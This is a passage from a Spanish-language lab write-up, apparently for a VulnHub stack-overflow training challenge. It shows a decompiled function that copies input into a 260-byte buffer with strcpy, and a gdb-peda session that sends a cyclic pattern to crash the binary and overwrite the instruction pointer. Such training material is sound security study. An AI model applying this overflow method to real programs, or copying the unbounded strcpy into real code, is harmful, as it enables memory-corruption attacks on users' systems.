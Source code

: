 Ahora define un buffer de 260 bytes y copea el argumento con la funcion strcpy que habias visto de antes en los binarios anteriores si `param_1` contiene más de 260 caracteres, los datos adicionales se escribirán en la memoria adyacente a `local_10c`, lo que puede provocar un desbordamiento de búfer.


```c
void overflow(char *param_1)

{
  char local_10c [260];
  
  strcpy(local_10c,param_1);
  printf("Buf: %s\n",local_10c);
  return;
}
```

Vamos a usar `gdb` otra vez para corromper el binario  

```shell
❯ gdb -q levelThree
Reading symbols from levelThree...
(No debugging symbols found in levelThree)
gdb-peda$ pattern_arg 300
Set 1 arguments to program
gdb-peda$ run
Starting program: /home/miguelrega7/VulnHub/StackOverflowForBeginners/content/levels/levelThree 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
Buf: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x132 
EBX: 0x25413225 ('%2A%')
ECX: 0x0 
EDX: 0x1 
ESI: 0xffffd200 --> 0x2 
EDI: 0xf7fa7000 --> 0x1e4d6c 
EBP: 0x64254148 ('HA%d')
ESP: 0xffffd1b0 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
EIP: 0x41332541 ('A%3A')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41332541
[------------------------------------stack-------------------------------------]
0000| 0xffffd1b0 ("%IA%eA%4A%JA%fA%5A%KA%gA%6A%")
0004| 0xffffd1b4 ("eA%4A%JA%fA%5A%KA%gA%6A%")
0008| 0xffffd1b8 ("A%JA%fA%5A%KA%gA%6A%")
0012| 0xffffd1bc ("%fA%5A%KA%gA%6A%")
0016| 0xffffd1c0 ("5A%KA%gA%6A%")
0020| 0xffffd1c4 ("A%gA%6A%")
0024| 0xffffd1c8 ("%6A%")
0028| 0xffffd1cc --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41332541 in ?? ()
gdb-peda$ 
```
